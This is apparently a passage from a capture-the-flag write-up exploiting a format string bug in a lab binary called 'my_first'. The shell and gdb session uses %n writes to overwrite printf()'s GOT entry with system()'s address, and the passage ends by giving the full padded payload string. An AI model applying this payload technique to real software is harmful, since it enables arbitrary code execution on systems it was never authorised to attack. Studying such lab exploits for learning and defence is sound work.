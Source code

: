 And so we learn that `system()` lives at `0x40069060`. What does this all mean so far then? Well, we are now going to use the format string vulnerability to write (using `%n`) a new address for `printf()` in the GOT at `08049bfc` to point to `system()` at `0x40069060` instead of its real location.

For us to debug the application while we prepare the required padding for the format string, we will use the `printf()` used to pipe to `./my_first` to redirect to a file instead. Then, in `gdb`, we will run the binary, redirecting the input from the file we will compile with the `printf()`:

```bash
# so, instead of the 4 x A's, we will now place the address
# in the GOT that we want to override, and use the %x format
# string to attempt writing to it
mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08%%8$n' > t
mike@pegasus:~$ file t
t: data

# then, in gdb, we will grab the output of the new file called
# t, and redirect it as input to my_first
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.

# leak the current address that GOT points to for printf()
(gdb) x/x 0x08049bfc
0x8049bfc <printf@got.plt>: 0x080483b6

# run the binary with our exploit (t) as input
(gdb) r < t
Starting program: /home/mike/my_first < t
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ��

Program received signal SIGSEGV, Segmentation fault.
0x00000004 in ?? ()

# inspect the new address the GOT points to for printf()
(gdb) x/x 0x08049bfc
0x8049bfc <printf@got.plt>: 0x00000004
(gdb)
```

This is working exactly as expected. Now all that is left is to pad the format string so that we can have the address `0x40069060` instead of `0x00000004` written. For the math etc involved, refer to the Xerxes2 post I previously mentioned. The resultant format string was `\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n`, with a run in the debugger ending in:
